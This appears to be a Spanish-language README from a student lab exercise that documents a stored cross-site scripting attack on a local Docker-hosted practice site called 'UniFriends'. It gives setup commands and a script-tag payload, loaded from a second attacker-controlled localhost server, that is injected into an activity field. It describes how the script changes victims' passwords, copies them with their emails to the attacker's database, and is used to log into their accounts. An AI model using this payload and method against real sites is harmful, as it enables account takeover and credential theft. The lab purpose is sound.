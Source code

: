 ## Vulnerabilidad explotada
Para realizar el ataque a la página UniFriends hemos optado por agregar un script en el apartado de actividades, dado que no hacen ninguna comprobación de si ese campo es un texto válido o no. El script introducido se ejecuta cada vez que alguien entra en ese apartado de la web. Una vez ejecutado, la contraseña del usuario es cambiada por otra totalmente diferente y se almacena en nuestra base de datos junto a su email

## Ejecutar el ataque
1. Crear la imagen **web** de ambas librerium (nuestra web) y UniFriends(web atacada):
    * `$ docker build -t="web" .`
2. Iniciar los contenedores de ambas páginas:
    * `$ docker-compose up -d`
2. Crear una cuenta
![pprincipal]
![registro]
2. Iniciar sesión
![iniciarSesion.png]
3. Crear una actividad maliciosa
![actividad]
* Añadir un nombre cualquiera a la actividad
* Añadir una descripción cualquiera
* Añadir un número de personas cualquiera
* Añadir una fecha aleatoria
* Añadir el siguiente script en el campo de lugar 
     * `<script src="http://localhost:82/a.js"></script>`
4. Cualquier persona que haya iniciado sesión entra al catálogo de actividades
5. Mirar la base de datos para ver si alguien ha caido en la trampa.
    * `http://localhost:8891`
    * `Usuario: Admin`
    * `Contraseña: Se encuentra en el fichero db_pass.txt`
6. Entrar en su cuenta con los credenciales que aparecen en la base de datos
## Explicación del código
![Codigo1]

En estas líneas de código logramos obtener el nombre del usuario activo a través de la función asíncrona fetch() que recoge el cuerpo del texto de la url propocionada (http://localhost:81/editarMiPerfil.php).

![Codigo2]
En esta parte del código generamos una nueva contraseña para el usuario que está siendo atacado. Dicha contraseña la enviamos mediante un HTTP POST a su base de datos utilizando su página de cambiar contraseña. La contraseña la enviamos también a nuestra base de datos junto a su email


[registro]: imagenes/registro.png
[iniciarSesion.png]: imagenes/iniciarSesion.png
[actividad]: imagenes/actividad.png
[pprincipal]: imagenes/pprincipal.png
[Codigo1]: imagenes/c1.png
[Codigo2]:imagenes/c2.png

